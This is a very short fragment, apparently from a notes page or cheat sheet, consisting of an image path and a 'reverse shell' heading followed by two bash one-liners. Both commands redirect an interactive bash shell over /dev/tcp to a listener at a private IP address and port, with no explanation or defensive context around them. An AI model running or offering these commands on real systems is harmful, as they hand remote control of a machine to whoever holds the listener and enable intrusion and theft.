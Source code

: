 ## reverse shell

/bin/bash -l > /dev/tcp/192.168.49.202/18000 0<&1 2>&1

/usr/bin/bash -c 'bash -i >& /dev/tcp/10.0.0.1/9999 0>&1'
